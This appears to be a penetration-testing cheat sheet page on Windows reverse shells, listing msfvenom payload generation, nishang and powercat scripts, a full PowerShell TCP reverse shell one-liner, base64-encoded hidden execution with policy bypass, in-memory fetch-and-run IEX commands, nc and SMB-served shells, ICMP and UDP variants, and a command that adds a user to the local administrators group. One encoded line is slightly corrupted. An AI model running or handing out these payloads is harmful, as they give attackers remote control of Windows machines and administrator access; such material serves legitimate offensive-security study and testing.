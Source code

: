 # Windows Rev Shells

### TCP (.exe,.ps1)

{% tabs %}
{% tab title="msfvenom" %}
Creation of .exe and .dll payloads:

```bash
# .exe:
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > shell.exe # 32 bits.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > shell.exe # 64 bits.
.\shell.exe # Execute
# .dll:
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f dll > shell.dll # 32 bits.
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f dll > shell.dll # 64 bits
rundll32 shell32.dll,Control_RunDLL <PATH>\shell.dll # Execute
```
{% endtab %}

{% tab title="nc" %}
```bash
rlwrap nc -nvlp <PORT> # rlwrap to have more management in the console.
rlwrap nc -u -nvlp <PORT> # UDP
```
{% endtab %}

{% tab title="PowerShell" %}
## #1. nishang

Nishang is a framework and a collection of scripts and payloads that enables the use of PowerShell for offensive security, penetration testing and network teaming. For this case, nishang has several scripts in PS that can help us get a reverse shell. One of those is the `Invoke-PowerShellTcp.ps1` script:

```bash
# You can clone the entire repository or directly download it:
cd /opt && git clone https://github.com/samratashok/nishang # /opt/nishang/Shells/Invoke-PowerShellTcp.ps1
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

Now you can upload it to the Windows computer, then import it and run the reverse shell:

```powershell
Import-Module .\Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress <LHOST> -Port <LPORT>
```

We can also avoid importing the module. To achieve this, we must execute it directly in memory, but the first thing we have to do is to modify the script and add the command at the end:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <LHOST> -Port <LPORT>
```

Then we open a web server and run it in memory with the following command:

```bash
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://<LHOST>/Invoke-PowerShellTcp.ps1')
```

### # 2. powercat

Netcat: The powershell version. (Powershell Version 2 and Later Supported)

```bash
# Attacker machine:
git clone https://github.com/besimorhino/powercat
cd powercat
## Open a web server.

# Compromised machine:
IEX(New-Object System.Net.WebClient).DownloadString('http://<IP>/powercat.ps1');powercat -c <LHOST> -p <LPORT> -e cmd
```

### #3. Oneliner

```powershell
# Normal:
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};"
# Encoded (base64):
echo -n "\$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',9001);\$stream = \$client.GetStream();[byte[]]\$bytes = 0..65535|%{0};while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);\$sendback = (iex \$data 2>&1 | Out-String );\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback;5C2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);\$stream.Flush()};" > rev.txt
iconv -f ASCII -t UTF-16LE rev.txt | base64 -w 0
powershell -w hidden -exec bypass -nop -enc <BASE64> # Only the -enc parameter is sufficient.
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Tricks

{% content-ref url="../../misc/tricks/process-migration.md" %}
[process-migration.md](../../misc/tricks/process-migration.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="C" %}
We will need a C script:

```bash
# Repo: https://github.com/sagishahar/scripts
wget https://raw.githubusercontent.com/sagishahar/scripts/master/windows_service.c
```

We open the file `windows_service.c` and insert the code we want in the `system()` function:

```shell
cmd /c C:\Windows\Temp\nc.exe -e cmd <LHOST> <LPORT>
cmd.exe /k net localgroup administrators user /add
```

![](../../.gitbook/assets/windows\_service\_c.png)

Finally, we cross-compile the C code:

{% content-ref url="../exploits/compiling-exploits.md" %}
[compiling-exploits.md](../exploits/compiling-exploits.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

### ICMP/UDP/SMB

{% tabs %}
{% tab title="ICMP" %}
In some cases, the Windows firewall will block some TCP connections which will prevent us from obtaining a reverse shell. However, we can employ the use of the network protocol, ICMP, to obtain a reverse shell.

```powershell
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellIcmp.ps1
```

We edit the Invoke-PowerShellIcmp.ps1, to add the following at the end:

```powershell
Invoke-PowerShellIcmp -IPAdress <LHOST>
```

Also, it is recommended to remove all comments from the script, including empty lines:

```bash
# Remove comments with any editor.
sed -i '/^\s*$/d' Invoke-PowerShellIcmp.ps1 # Remove empty lines.
```

Now, we download and run a script to receive the reverse shell over ICMP:

```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1 # Apply a rule for ICMP.
wget https://raw.githubusercontent.com/bdamele/icmpsh/master/icmpsh_m.py # Script to receive the reverse shell over ICMP.
python3 icmpsh_m.py <LHOST> <TARGET_IP>
```

And finally, we run the PowerShell script in memory (remember to open a web server to be able to download it):

```bash
IEX(New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellIcmp.ps1')
```
{% endtab %}

{% tab title="UDP" %}
### nishang

Nishang is a framework and a collection of scripts and payloads that enables the use of PowerShell for offensive security, penetration testing and network teaming. For this case, nishang has several scripts in PS that can help us get a reverse shell. One of those is the `Invoke-PowerShellUdp.ps1` script:

```powershell
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellUdp.ps1
```

Now you can upload it to the Windows computer, then import it and run the reverse shell:

```powershell
Import-Module .\Invoke-PowerShellUdp.ps1
Invoke-PowerShellUdp -Reverse -IPAddress <LHOST> -Port <LPORT>
```

We can also avoid importing the module. To achieve this, we must execute it directly in memory, but the first thing we have to do is to modify the script and add the command at the end:

```powershell
Invoke-PowerShellUdp -Reverse -IPAddress <LHOST> -Port <LPORT>
```

Then we open a web server and run it in memory with the following command:

```shell
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://<LHOST>/Invoke-PowerShellTcp.ps1')
```
{% endtab %}

{% tab title="SMB" %}
### smbserver\#

Copy a binary of `nc.exe` and raise an SMB server with smbserver:

```bash
# Attacker machine (nc.exe):
smbserver.py smbFolder $(pwd)
smbserver.py smbFolder $(pwd) -smb2support # For Windows 10 support.
# Victim machine:
start /b \\<IP>\smbFolder\nc.exe -e cmd <LHOST> 4444
```
{% endtab %}
{% endtabs %}
